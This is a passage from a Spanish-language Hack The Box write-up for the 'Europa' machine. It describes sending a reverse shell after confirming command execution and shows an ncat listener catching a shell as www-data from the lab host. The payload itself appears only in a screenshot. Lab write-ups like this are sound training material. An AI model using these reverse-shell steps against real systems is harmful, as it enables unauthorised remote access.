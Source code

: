 ![](/assets/images/HTB/htb-writeup-Europa/euro12.PNG)

Despues de validar que podemos ejecutar comandos, vamos a enviarnos un revere shell para obtener acceso a la maquina, sin olvidar poner los `&` en urlencode.

![](/assets/images/HTB/htb-writeup-Europa/euro13.PNG)


Nos ponemos en escucha y obtenemos acceso como el usuario `www-data`

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.22.
Ncat: Connection from 10.10.10.22:54978.
bash: cannot set terminal process group (1394): Inappropriate ioctl for device
bash: no job control in this shell
www-data@europa:/var/www/admin$ whoami
whoami
www-data
```
